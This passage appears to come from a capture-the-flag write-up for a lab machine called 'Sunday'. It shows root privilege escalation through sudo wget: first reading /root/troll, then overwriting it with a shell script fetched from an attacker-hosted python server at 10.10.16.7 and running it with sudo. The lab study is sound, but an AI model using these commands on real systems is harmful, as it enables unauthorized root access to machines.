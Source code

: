 We now have root shell.

![image.png]({{ site.baseurl }}/assets/sunday/image.png)

Another way to get root is reading what the script /root/troll does. Since we have sudo privilege, we can use wget to take a file as input:

```bash
sudo wget /root/troll

/root/troll: Invalid URL http://#!/usr/bin/bash: Invalid host name
/root/troll: Invalid URL /usr/bin/echo "testing": Scheme missing
/root/troll: Invalid URL /usr/bin/id: Scheme missing
```

Now just create a script e.g. troll with content:

```bash
#!/bin/bash

bash
```

Now host a python server:

```bash
python3 -m http.server 8001

#on target
sudo wget -O /root/troll http://10.10.16.7:8001/troll
```

Then execute it as sunny:

```bash
sudo /root/troll
```